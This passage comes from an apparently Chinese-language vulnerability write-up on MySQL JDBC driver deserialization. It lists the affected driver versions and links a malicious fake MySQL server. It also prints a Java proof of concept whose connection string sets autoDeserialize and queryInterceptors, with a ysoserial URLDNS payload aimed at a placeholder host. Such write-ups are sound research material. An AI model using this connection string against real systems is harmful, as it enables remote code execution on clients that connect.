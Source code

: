 ![](./img/15.png)
![](./img/17.png)

而在8.x版本获取`SHOW COLLATION`时又不一样了,才终于无法利用该点触发了。
![](./img/16.png)
### 总结
detectCustomCollations触发版本:5.1.18< version <=6.0.6(5.1.49除外)  
queryInterceptors触发版本: 5.1.1 < version <= 8.0.19(5.1.49除外)  
### 复现
[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)  

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class JDBC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.cj.jdbc.Driver");

        Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","yso_URLDNS_http://xxx.cn/", "pass");
        //Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?detectCustomCollations=true&autoDeserialize=true","yso_URLDNS_http://xxx.cn/", "pass");
    }
}

```
判断返回数据前两个字节是否为序列化数据的特征-84,-19,满足条件则进行反序列化.
